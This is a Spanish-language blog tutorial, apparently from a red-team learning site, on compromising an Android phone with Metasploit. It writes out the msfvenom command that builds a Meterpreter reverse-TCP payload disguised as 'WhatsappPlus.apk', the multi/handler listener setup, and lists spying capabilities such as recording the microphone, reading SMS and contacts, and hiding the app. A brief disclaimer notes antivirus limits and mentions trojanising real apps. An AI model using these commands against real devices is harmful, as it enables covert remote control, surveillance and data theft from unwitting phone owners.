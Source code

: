 ```yaml
---
layout: post
category: red
tags: hack android meterpreter msfvenom msfconsole metasploit
author: RedDev
title : Vamos a hackear un móvil android
---
```


# Introducción
En este artículo vamos a conocer una de las maneras más comunes con las cuales los hackers ganan acceso a nuestros dispositivos android.

# Herramientas a utilizar 
- Emulador android 7.0
- Sistema Kali Linux
- Metasploit

# Manos a la obra
## 1.Creando el payload
Para este fin usaremos msfvenom, una de las herramientas de MetasPloit, como nuestro objetivo es un móvil android usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.126.145 LPORT=4444 R > WhatsappPlus.apk
```
Siendo LHOST nuestra ip, en este caso privada y el LPORT el puerto de escucha.
El payload es de tipo meterpreter, este tipo de virus es muy peligroso ya que funciona por medio de inyecciones dinamicas en memoria, lo que lo hace difícil de detectar y además permite el uso de otros exploits de forma fácil.
![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/602b5004-d20c-4eb2-b4dc-477b00588fea)

## 2.Configurando el listener
Primero abrimos msfconsole
```bash
msfconsole
```
Tras esto usamos: 
```bash
use multi/handler/
set payload android/meterpreter/reverse_tcp
```
Tras esto configuraremos el listener.
Por defecto está así:
```bash
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Por lo que solo tendremos que configurar nuestro LHOST de esta forma:
```bash
set lhost eth0
```
Siendo eth0 nuestra interfaz de red por la que estaremos en escucha, aunque también podemos escribir nuestra IP privada a mano
Trás esto escribimos:
```bash
run
```
Y a funcionar :)
![Captura de pantalla 2023-05-26 011816](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/cd602b93-315a-4959-bde3-410427a4595d)

## 3.Enviando e instalando el apk maliciosa
Descargamos la apk en el dispositivo:
Ahora procedemos a instalarla, y una vez abierta, obtenemos la sesión:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/f76b45b1-7bbe-48ed-8612-ca4dfa19eb5b)


Ahora vamos a ver las opciones que nos brinda este tipo de virus:
![Captura de pantalla 2023-05-26 012250](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/c1827fef-4c27-4f0c-be32-e7edb706510d)
![Captura de pantalla 2023-05-26 012320](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/31ab0f89-9fde-4f06-8345-e7d3660fa3c6)

Entre las opciones que nso brinda esta:
- Espiar la pantalla del dispositivo
- Grabar el micrófono o la webcam
- Iniciar aplicaciones
- Enviar SMSs
- Geolocalizar el dispositivo
- Robar el historial de llamadas, contactos, SMSs
- Esconder la aplicación maliciosa
- Instalar aplicaciones...

# Conclusiones
Como veis este tipo de virus son muy peligrosos, pudiendo hacer mucho daño al usuario.
Como disclamer, quiero recalcar que este método no es efectivo a día de hoy ya que el antivirus de android y lo "extraña que es la app", es difícil de hacela efectiva esta técnica, para esto se utilizan diversas técnicas como ofuscación o esconder el payload en una app veridica y de esta forma usar la app como caballo de troya.

